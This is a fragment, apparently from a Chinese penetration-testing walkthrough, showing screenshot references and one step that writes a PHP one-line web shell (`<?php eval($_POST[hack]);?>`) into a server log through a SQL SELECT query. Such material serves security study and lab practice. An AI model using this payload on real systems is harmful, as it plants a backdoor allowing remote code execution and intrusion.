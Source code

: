 ![image-20240121175309993](assets/image-20240121175309993.png)

查询一句话写入日志`Select '<?php eval($_POST[hack]);?>'`

![image-20240121175352539](assets/image-20240121175352539.png)
